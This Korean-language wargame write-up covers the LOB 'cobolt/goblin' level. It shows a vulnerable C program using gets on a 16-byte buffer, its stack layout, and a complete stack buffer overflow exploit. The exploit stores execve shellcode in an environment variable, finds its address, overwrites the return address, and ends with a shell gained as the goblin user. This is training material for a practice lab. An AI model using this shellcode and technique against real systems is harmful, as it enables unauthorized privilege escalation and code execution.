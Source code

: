 ============================================================================================================
[lob] cobolt
============================================================================================================


.. uml::
    
    @startuml

    start

    :Source Analysis;

    :Memory Structure;

    :Segmentation fault;

    :환경 변수 쉘코드 등록;

    :환경 변수 주소값 확인;

    :RET 주소를 환경 변수 주소로 변경하여 공격 진행;
    
    stop

    @enduml

|

Source Analysis
============================================================================================================

해당 문제 소스코드는 다음과 같습니다.

.. code-block:: c

    /*
        The Lord of the BOF : The Fellowship of the BOF
        - goblin
        - small buffer + stdin
    */

    int main()
    {
        char buffer[16];
        gets(buffer);
        printf("%s\n", buffer);
    }


|

Memory Structure
============================================================================================================

스택에 다음과 같이 들어가게 됩니다.

.. code-block:: console

	===============
	LOW     
	---------------
	Buffer  (16byte) <- gets
	SFP     (4byte)
	RET     (4byte)
	---------------
	HIGH    
	===============

|

Segmentation fault
============================================================================================================

버퍼오버플로우가 일어나는 지점을 확인합니다.

※ 시작시 bash2 명령을 입력하고 bash2 쉘 상태에서 진행해야 합니다.

.. code-block:: console

    $ ./goblin
    aaaaaaaaaaaaaaaa
    aaaaaaaaaaaaaaaa
    $ ./goblin
    aaaaaaaaaaaaaaaaaaaa
    aaaaaaaaaaaaaaaaaaaa
    Segmentation fault

|

exploit
============================================================================================================

환경 변수 쉘코드 등록
------------------------------------------------------------------------------------------------------------

.. code-block:: console

    $ export shellcode=`python -c 'print "\x90"*100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`

|

환경 변수 주소값 확인
------------------------------------------------------------------------------------------------------------

.. code-block:: c

    #include <stdio.h>
    int main(int argc, char **argv)
    {
            char *addr;
            addr = getenv(argv[1]);
            printf("address %p\n", addr);
            return 0;
    }

.. code-block:: console

    $ gcc -o get get.c
    get.c: In function `main':
    get.c:6: warning: assignment makes pointer from integer without a cast
    
    $ ./get shellcode
    address 0xbfffff02

|

RET 주소를 환경 변수 주소로 변경하여 공격 진행
------------------------------------------------------------------------------------------------------------

.. code-block:: console

    $ (python -c 'print "a"*20+"\x01\xff\xff\xbf"';cat) |./goblin
    aaaaaaaaaaaaaaaaaaaa▒▒▒

    whoami
    goblin
    my-pass
    euid = 503
    hackers proof
